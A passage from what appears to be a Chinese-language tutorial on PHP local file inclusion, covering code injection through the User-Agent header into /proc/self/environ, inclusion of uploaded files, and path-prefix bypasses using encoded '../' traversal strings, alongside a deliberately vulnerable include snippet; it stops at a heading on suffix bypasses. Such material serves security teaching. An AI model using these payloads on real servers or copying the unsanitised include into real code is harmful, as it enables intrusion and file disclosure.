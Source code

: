 proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

#### 包含上传文件

利用条件：

1. 文件上传路径
2. 文件名

利用方式：

文件上传

# 绕过姿势

## 指定前缀

服务器代码：

~~~php
<?php
	$file = $_GET['file'];
	include '/var/www/html/'.$file;
?>
~~~

利用../或..\

编码绕过：

* 利用URL编码
  * ../
     + %2e%2e%2f
  * ..\
     + %2e%2e%5c
* 二次编码
  * ../
     + %252e%252e%252f
  * ..\
     + %252e%252e%255c
* 容器或服务器的编码方式
  * ../
     + %252e%252e%255c
         * [Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
     + %c0%ae%c0%ae/
         * java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
         * Apache Tomcat Directory Traversal
  * ..\
     + ..%c1%9c

## 指定后缀

服务器代码：
